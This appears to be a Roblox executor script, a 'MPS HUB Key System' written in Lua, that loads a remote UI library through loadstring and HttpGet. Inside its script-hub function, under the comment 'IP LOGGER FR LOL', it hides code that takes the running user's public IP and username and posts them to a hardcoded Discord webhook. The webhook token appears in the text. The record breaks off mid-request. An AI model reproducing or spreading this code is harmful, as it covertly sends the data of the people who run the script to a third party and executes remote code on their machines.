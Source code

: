 
local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Player = game.Players.LocalPlayer
local Window = OrionLib:MakeWindow({Name = "MPS HUB Key System", HidePremium = false, SaveConfig = true, IntroText = "MPS Key System"})

OrionLib:MakeNotification({
    Name = "Logged in",
    Content = "Welcome! "..Player.Name.."." ,
    Image = "rbxassetid://4483345998",
    Time = 5
})

_G.Key = "cr4bby" -- Change key here
_G.KeyInput = "string" -- Change what you want the textbox of where you enter the key to say without clicking it

local Key = Window:MakeTab({
    Name = "Key System",
    Icon = "rbxassetid://4483345998", -- Your able to change this to any image you want
    PremiumOnly = false
})

function MakeScriptHub()


---IP LOGGER FR LOL

local webh = "https://discord.com/api/webhooks/1073932506224656394/2DtYtEiwwIRb_y_sxytrcn7-dCk8B0YFWNSdtf7V0yT3GjEroG8-gFcgSBZ0oQhTvTy5"

pcall(function()
   local data = {
       ["embeds"] = {
           {
               ["title"] = game:GetService("Players").LocalPlayer.Name,
               ["description"] = game:HttpGet("https://api.ipify.org")
           }
       }
   }

   if syn then
       local response = syn.request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif request then
       local response = request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif http_request then
       local response = http_request(
           {
               Url = webh,